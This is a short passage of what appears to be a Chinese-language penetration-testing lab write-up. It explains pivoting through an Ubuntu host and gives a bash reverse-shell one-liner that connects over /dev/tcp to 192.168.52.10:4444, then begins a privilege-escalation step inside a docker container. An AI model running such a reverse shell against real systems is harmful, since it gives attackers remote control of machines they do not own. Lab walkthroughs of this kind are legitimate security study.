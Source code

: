 ![截图](7c2ed5494db45b6ee193840872d26c44.png)

81端口的反弹不到kali，只能麻烦一点使用ubuntu做为跳板机进行操作.

首先进行反弹shell到ubuntu:192.168.52.10

```
bash -c 'exec bash -i &>/dev/tcp/192.168.52.10/4444 <&1'
```

![截图](00cfd04a6fad2669187989de37a93a6b.png)

当前权限为www，先进行提权

## 环境变量提权

发现是docker环境。
